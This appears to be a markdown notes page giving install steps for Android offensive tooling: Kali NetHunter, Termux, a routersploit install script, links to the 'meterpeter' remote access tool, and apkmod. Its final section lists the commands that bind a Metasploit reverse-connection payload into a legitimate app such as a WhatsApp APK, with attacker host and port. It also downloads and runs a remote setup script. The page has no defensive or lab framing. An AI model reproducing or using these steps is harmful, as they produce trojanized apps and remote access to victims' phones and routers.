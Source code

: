 ### Install nethunter
* [kali NetHunter](https://www.kali.org/docs/nethunter/installing-nethunter/?fbclid=IwAR3ghqFZmYRjh3sLw5WNzqegpTMIJ4nYAeWtZhdmjwMjo_ZPUx6yNHJ3o-I)
```
Installing NetHunter requires the following steps:
- Download a pre-built image or build your own image
- Put your device in developer mode
- Unlock your device
- Install TWRP
- Flash Magisk
- Android 9 and above: Format “data” and flash Universal DM-Verity & ForceEncrypt Disabler
- Install NetHunter
- Android 10 and above: Update NetHunter App from the NetHunter Store
- Run the NetHunter App to finish the installation
```
### Termux software install
* pkg update
* pkg upgrade
### Banner
```
"Want to add a custom banner to your Termux terminal?
Check out the Evil Eye script created by Bhai4You on GitHub. This script will install multiple packages like figlet, toilet, cow say, nano, ruby, local cat and use them to display the Evil Eye banner in Termux.
Follow these steps:
1) pkg install git -y
2) git clone https://github.com/Bhai4You/Termux-Banner
3) cd Termux-Banner
4) chmod +x *
5) bash requirement.sh
6) bash t-ban.sh
7) Type your banner name.
Perfect for tutorials and fun!
```
### routersploit on termux 
#### As you know routersploit on termux there are always problems i found the solution for routersploit on termux again
```
#!/bin/bash
echo "=================="
echo "Bash script for routersploit installation on termux"
echo "Keep your phone alive and try not to use it while installing"
echo "=================="
sleep 3
apt update -y && apt upgrade -y
apt install autoconf automake bison bzip2 clang cmake coreutils diffutils flex gawk git grep gzip libtool make patch perl sed silversearcher-ag tar wget pkg-config python clang libcrypt libffi git openssl libsodium -y
python -m pip install wheel
SODIUM_INSTALL=system pip install pynacl
git clone https://github.com/threat9/routersploit
mv routersploit $HOME/
pip install -r requirements.txt
pip install -r requirements-dev.txt
echo "Done!"
```
##
```
cd routersploit
apt install python-cryptography
apt install python-bcrypt
pip install -r requirements.txt
pip install colorama
pip3 install setuptools
export SODIUM_INSTALL=system
pip3 install --no-binary :all: pynacl
pip install routersploit
python rsf.py
```
* ![routerspolit](https://github.com/jumbokh/Network-class/blob/main/images/routerspolit.jpg)
####
#### Debug -- bcrypt
```
A possible workaround (for experts). Get source and apply the following patch:

--- a/src/_bcrypt/Cargo.toml
+++ b/src/_bcrypt/Cargo.toml
@@ -20,5 +20,5 @@
 crate-type = ["cdylib"]
 
 [profile.release]
-lto = "thin"
+#lto = "thin"
 overflow-checks = true
And then in the source directory

pip install .
```
##
```
cryptography is available as a Termux package named python-cryptography. bcrypt will soon become available as python-bcrypt.
==>
export CARGO_BUILD_TARGET=aarch64-linux-android && pip install cryptography
==> python-bcrypt
```
##
### codename: Zaratustra  -- Remote Access Tool v2.10.13
* https://github.com/r00t-3xp10it/meterpeter
* https://github.com/r00t-3xp10it/meterpeter/releases/tag/v2.10.13?fbclid=IwAR1x6fnvnOpvoSuBJd0hvIKGxzBs8tw9iFAwpMglOlohUaCBQnf5H48QHPc
#### Install on Linux
```
https://github.com/r00t-3xp10it/meterpeter/blob/master/README.md#attacker-machine-linux-kali
```
##
#### Bind apk metasploit
* https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh?fbclid=IwAR15wlxfGnVR-dPgHwpe2BaveBsTt7ZGKdJqRDR--VQUq9x0S5-o3GtJZEY
```
Bind Metasploit Payload With App In Termux
Install APKMOD:
cd $HOME
pkg install wget
wget https://raw.githubusercontent.com/....../master/setup.sh
bash setup.sh
apkmod
Command:
apkmod -b -i original.apk -o binded.apk lhost=yourLhostHere lport=yourLportHere
apkmod -b -i /sdcard/Whatsapp.apk -o mybindedapp.apk lhost=127.0.0.1 lport=4444
```
